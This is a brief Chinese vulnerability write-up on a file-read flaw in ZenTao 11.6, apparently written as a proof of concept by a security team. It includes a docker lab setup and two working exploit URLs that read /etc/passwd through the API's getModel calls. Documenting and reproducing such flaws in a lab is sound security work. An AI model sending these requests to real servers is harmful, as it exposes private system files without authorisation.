

# 禅道 11.6 版本 文件读取漏洞

>**Created by：** A-little-dragon
>
>**Team：** TracelessSec
>
>**漏洞描述：** 禅道 11.6 版本 文件读取漏洞

# 0x01 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，文件读取漏洞

# 0x02 影响版本

禅道 11.6

# 0x03 环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 http://xxx.xxx.xxx.xxx:8084 安装即可

# 0x04 漏洞复现

## 方式一

```bash
http://{ip}:{port}/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd#/
http://{ip}:{port}/api-getModel-file-parseCSV-fileName=/etc/passwd
```



> 注意以 `.php` `.txt` 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤
> 

## 方式二

```bash
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```
